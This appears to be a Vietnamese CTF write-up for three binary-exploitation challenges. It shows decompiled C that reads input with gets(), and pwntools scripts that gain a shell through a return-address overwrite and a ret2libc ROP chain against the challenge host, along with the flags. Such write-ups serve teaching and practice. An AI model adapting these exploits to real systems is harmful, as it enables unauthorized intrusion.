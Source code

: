 ## Gồm các challenge
* Terminal System
* The Portal
* Return that ROPe

## Terminal System
Chỉ cần nhập 1 giá trị đủ lớn để tràn biến V6 != 0 thì có thể get shell.
```sh
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-D8h] BYREF
  char v5[76]; // [rsp+80h] [rbp-58h] BYREF
  int v6; // [rsp+CCh] [rbp-Ch]

  v6 = 0;
  printf("Welcome to the demo of the Terminal System.\nWhat is your username: ");
  fflush(_bss_start);
  gets(v5, argv);
  printf("\nHello %s, what is your password: ", v5);
  fflush(_bss_start);
  gets(&v4, v5);
  if ( v6 )
  {
    printf("\nWelcome back %s!", v5);
    putchar(10);
    execve("/bin/sh", 0LL, 0LL);
  }
  else
  {
    printf("\nAccess denied!");
  }
  putchar(10);
  return 0;
}
```
### flag{t3rm1n4l_syst3m_0v3rfl0w}

## The Portal

Tại challenge này có 1 hàm gọi sẵn system
```sh
int portal()
{
  return system("/bin/sh");
}
```
Tràn main_ret = portal_address --> done
```sh
from pwn import *
host = "challenges.ctf.cert.rcts.pt"
port = 57449
s = remote(host,port)
# s = process("./program")
raw_input("debug_zir")
payload = "a"*0x28 + p64(0x0401156)
s.sendline(payload)
s.interactive()
#flag{0p3n1ng_p0rt4ls_w1th_buff3r_0v3rfl0w}
```

## Return that ROPe

Trong main sẽ gọi ret(), trong hàm ret() dùng gets() --> buffer overflow.
```sh
__int64 ret()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Can you ROP it?");
  fflush(_bss_start);
  return gets(v1);
}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("Welcome to Return Oriented Programming.");
  ret();
  return 0;
}
``` 

Bài này sẽ dùng kỹ thuật Ret2libc để giải quyết như sau:
* Leak libc, quay lại hàm ret().
* Tính libc_base, system, binsh, get shell.

file exploit
```sh
from pwn import *
# s = process("./program")
s = remote("challenges.ctf.cert.rcts.pt",40700)
elf = ELF("./program")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
RET_FUNC = 0x401142
RET = 0x401016
POPRDI_RET = 0x4011fb
payload = 'A'*0x28
payload += p64(POPRDI_RET)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(RET)
payload += p64(RET_FUNC)


s.sendline(payload)
s.recv()
# s.recvuntil("Can you ROP it?\n")

puts_leak = u64(s.recv(6)+"\x00\x00")
libc.address = puts_leak - libc.symbols['puts']
system = libc.symbols['system']
binsh = next(libc.search("/bin/sh"))

print "libc >> " + hex(libc.address)
print "system >> " + hex(system)
print "binsh >> " + hex(binsh)

payload2 = 'A'*0x28
payload2 += p64(POPRDI_RET)
payload2 += p64(binsh)
payload2 += p64(system)

s.sendline(payload2)
s.interactive()

#flag{r0p_b1n4ry_3xpl01t4t10n}
```
